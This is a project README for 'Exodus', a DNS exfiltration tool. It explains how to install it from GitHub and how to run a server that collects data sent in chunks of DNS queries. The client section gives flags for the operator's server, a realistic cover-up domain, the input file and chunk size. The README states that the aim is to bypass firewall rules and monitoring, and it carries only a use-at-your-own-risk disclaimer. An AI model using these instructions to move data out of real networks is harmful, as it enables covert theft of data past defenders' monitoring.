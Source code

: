 # Exodus

DNS Exfiltration tool. By setting up a remote server listening for "DNS queries", we can bypass most firewall rules and monitoring.

This does not guarantee perfect stealth! A good network admin and setup will easily spot such traffic and flag it.

> Do not use for malicious or illegal purposes! Use at your own risk.

## Installing

### From source

1. Download the source code `git clone https://github.com/cpl/exodus.git`
2. Run the following: `make`, this will test everything, get dependencies and build the executables
3. Inside the folder `./out/`, you will see the server and client executables

### Releases page

1. Go to [Exodus Releases](https://github.com/cpl/exodus/releases) on GitHub
2. Download the binaries for your systems

### Using go get

1. `go get cpl.li/go/exodus/cmd/exodus-client`
2. `go get cpl.li/go/exodus/cmd/exodus-server`

## Usage

### Server

You can simply run it after installing it: `exodus-server`

This will run with the default port `53` and default data directory (tmp).

You can set `--port 1453` to something custom and `--data /var/exodus` to whatever you want. There is also a `-v` flag to display logging messages.

When the server will receive a "query" it will store it in the following structure:

`DATADIR/{token}/{count}.out`

For example sending a file in **4** chunks using the token **example** and the server configured with the default temp dir, will result in the following:

```text
/tmp/exodus/example/00000000.out
/tmp/exodus/example/00000001.out
/tmp/exodus/example/00000002.out
/tmp/exodus/example/00000003.out
```

From here you could do something as simple as: `cat * > full.out` to assemble it back.

### Client

The Exodus client **needs** the following flags:

* `--server dns.example.com`, this will be the address where YOU installed the Exodus Server
* `--target normaldomain.com`, this domain will be the "cover up", so set it to something realistic

Other optional flags are:

* `--file something.txt`, by default Exodus Client will use *stdin* as the input source
* `--size 16`, this is how many bytes to send per DNS query, the default is the max
* `--port 1453`, if you set the server to use something other than 53
* `--token example`, use different tokens for different "uploads", this will separate them server side
* `-v`, enables verbose logging





